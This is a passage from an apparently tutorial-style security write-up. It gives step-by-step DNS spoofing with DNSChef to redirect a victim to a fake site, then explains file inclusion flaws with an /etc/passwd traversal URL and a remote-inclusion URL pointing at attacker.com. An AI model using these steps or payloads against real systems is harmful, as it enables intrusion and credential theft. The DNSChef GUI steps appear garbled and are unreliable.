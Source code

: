 * Step 2: Launch DNSChef and select the appropriate network interface to listen for DNS requests.

* Step 3: Click on "Filters" and select "Blacklist" to prevent any legitimate DNS requests from being resolved.

* Step 4: Click on "DNS" and select "Add record" to add a fake DNS record.

* Step 5: Enter the domain name you want to spoof and the IP address of the fake website you want to redirect the user to.

* Step 6: Start the attack by clicking on "Start" and wait for the target user to make a DNS request.

* Step 7: The DNS response from DNSChef will be intercepted and the user will be redirected to the fake website.

###### Note: Using these tools for malicious purposes is illegal and unethical. Only use them for educational purposes in a safe and controlled environment.

---
#### File inclusion vulnerability:
File inclusion vulnerability is a type of vulnerability that allows an attacker to include a file from a remote server or from the local file system of the web server. This can lead to serious security issues, such as unauthorized access to sensitive files, system compromise, and data theft.

There are two types of file inclusion vulnerabilities:

* Local File Inclusion (LFI): LFI occurs when an attacker can include a file from the local file system of the web server. This can allow the attacker to view sensitive files, such as configuration files, user credentials, and other system files.

* Remote File Inclusion (RFI): RFI occurs when an attacker can include a file from a remote server. This can allow the attacker to execute arbitrary code on the web server and potentially take control of the system.

> File inclusion vulnerabilities are typically exploited by manipulating input fields, such as GET and POST parameters, cookies, and user agents. The attacker may use various techniques, such as directory traversal, null byte injection, and encoding, to bypass security measures and include the desired file.

Here is an example of an LFI vulnerability:
```
http://www.example.com/index.php?page=../../../../etc/passwd
```

In this example, the attacker is manipulating the "page" parameter to include the /etc/passwd file from the local file system of the web server. This file contains sensitive information such as user credentials, which can be used to gain unauthorized access to the system.

Here is an example of an RFI vulnerability:

```
http://www.example.com/index.php?url=http://www.attacker.com/malicious-code.php
```
In this example, the attacker is manipulating the "url" parameter to include a remote file from the attacker's server. This file contains malicious code that can be executed on the web server and potentially compromise the system.

